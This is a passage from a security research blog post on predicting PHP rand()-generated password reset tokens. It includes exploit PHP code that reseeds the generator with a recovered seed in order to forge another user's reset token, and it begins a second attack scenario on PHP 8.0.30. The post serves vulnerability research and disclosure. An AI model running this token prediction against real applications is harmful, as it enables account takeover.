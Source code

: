 Figure 4 – Generated number by rand

The reason “0” and “61” is in the script is because the rand function is bounded from the original PHP code from 0 to 61 and we duplicate the number to achieve the exact match.

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232251.png)

Figure 5 – Seed was found using attacker token

Now let’s get the next token using the following exploit PHP code by setting the seed:

```
&lt;?php
function generateRandomString($length = 10)
{
    $characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $rnd_result = '';
    for ($i = 0; $i &lt; $length; $i++) {
        $rnd_result .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $rnd_result;
}
// Set the seed for the random number generator
srand(3697305637);
echo ("current token is :" . generateRandomString(32)." \n");

echo ("target reset token password is " . generateRandomString(32) . " \n")

?&gt;
```

Here is the example output for the target PHP code as below:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/5.png)

Figure 6 – Original output

Here we’ve run the exploit PHP code:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232359.png)

Figure 7 – Found the next token using the attack

The attack was successful and we obtained the token.

## Exploiting Scenario 2

In this scenario, user1 is the attacker who wants to reset the password for user2, and the website is using a vulnerable PHP version such as 8.0.30 (GH-13690).

We are going to attack an application that uses the same mentioned function in this experiment. We installed the application on PHP version 8.0.30.

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_232500.png)

Figure 8 – PHP version 8.0.30
